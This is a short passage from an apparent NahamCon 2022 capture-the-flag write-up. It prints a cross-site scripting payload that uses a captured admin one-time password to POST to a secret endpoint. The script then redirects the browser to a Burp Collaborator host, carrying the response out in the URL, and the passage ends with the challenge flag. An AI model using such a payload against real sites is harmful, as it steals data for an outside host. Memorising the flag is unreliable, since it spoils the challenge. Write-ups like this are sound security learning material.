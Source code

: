 Then use the Google Authenticator to scan the QR code

## Get Flag

We need to send a POST request to `/show_secret` using the admin's OTP and id=1 as parameter to get the first secret

Payload:
```html
<script>
const xhttp = new XMLHttpRequest();
xhttp.onload = function() {
  document.location="http://wvve02aoj1yl3gi0hwk2sbm0erkj88.burpcollaborator.net?flag="+this.responseText;
}
var json = {"otp":"209405","secretId":"1"};
xhttp.open("POST", "http://challenge.nahamcon.com:32330/show_secret");
xhttp.setRequestHeader('Content-Type', 'application/json');
xhttp.send(JSON.stringify(json));
</script>
```
Then saw the flag in the response!!

![two8](/uploads/nahamcon2022/two8.png)

## Flag
```
flag{96710ea6be916326f96de003c1cc97cb}
```